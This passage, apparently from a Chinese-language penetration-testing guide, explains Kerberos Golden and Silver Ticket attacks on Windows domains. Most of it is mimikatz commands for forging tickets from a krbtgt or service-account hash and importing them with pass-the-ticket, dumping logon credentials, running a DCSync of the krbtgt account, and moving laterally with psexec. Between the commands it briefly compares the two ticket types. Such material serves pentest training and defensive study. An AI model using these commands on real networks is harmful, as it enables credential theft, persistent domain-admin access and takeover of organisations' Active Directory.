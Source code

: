 另一种做法，大同小异，注意这里填写的是域管理：
```
mimikatz # kerberos::purge
mimikatz # kerberos::golden /admin:Administrator /domain:pentstlab.com /sid:S-1-5-21-3883552807-251258116-2724407435 /krbtgt:6a8e501fabcf264c70ef3316c6aab7dc /ticket:Administrator.kiribi
mimikatz # kerberos::ptt Administrator.kiribi
mimikatz # kerberos::tgt

#验证下：
E:\>net use \\WIN-0DKN2AS0T2G\c$
E:\>psexec.exe \\WIN-0DKN2AS0T2G cmd
```


##### 银票据
Silver Ticket是伪造的TGS(Ticket Granting Server)ticket，所以也叫service ticket。
将它同Golden Ticket做对比：
> 1、访问权限不同
> Golden Ticket是伪造的TGT(Ticket Granting Ticket)，所以可以获取任何Kerberos服务权限。
> Silver Ticket是伪造的TGS，也就是说其范围有限，只能访问指定的服务权限。

> 2、加密方式不同
> Golden Ticket是由krbtgt的hash加密
> Silver Ticket是由服务账户（通常为计算机账户）hash加密

> 3、认证流程不同
> Golden Ticket在使用的过程需要同域控通信
> Silver Ticket在使用的过程不需要同域控通信
> 也就是说只要手里有Silver Ticket，就可以跳过KDC认证，直接去访问指定的服务。

在域控上执行如下命令来获取域控主机的本地管理员账户hash：

```
mimikatz log "sekurlsa::logonpasswords"
```

整理信息，使用mimikatz执行如下命令导入Silver Ticket，此时可以成功访问域控上的文件共享：

```
mimikatz "kerberos::golden /domain:test.local /sid:S-1-5-21-4155807533-921486164-2767329826 /target:WIN-8VVLRPIAJB0.test.local /service:cifs /rc4:d5304f9ea69523479560ca4ebb5a2155 /user:silver /ptt"
```
注意：
Silver Ticket是伪造的TGS，也就是说其范围有限，只能访问指定的服务权限。
代替方案，如下可以远程访问LDAP服务来获得krbtgt的信息：

```
mimikatz "lsadump::dcsync /dc:WIN-8VVLRPIAJB0.test.local /domain:test.local /user:krbtgt"
```

注意：
> lsadump::dcsync
> 向 DC 发起一个同步对象（可获取帐户的密码信息）的质询。
> 需要的权限包括管理员组（Administrators），域管理员组（ Domain Admins）或企业管理员组（Enterprise Admins）以及域控制器的计算机帐户
> 只读域控制器默认不允许读取用户密码数据。


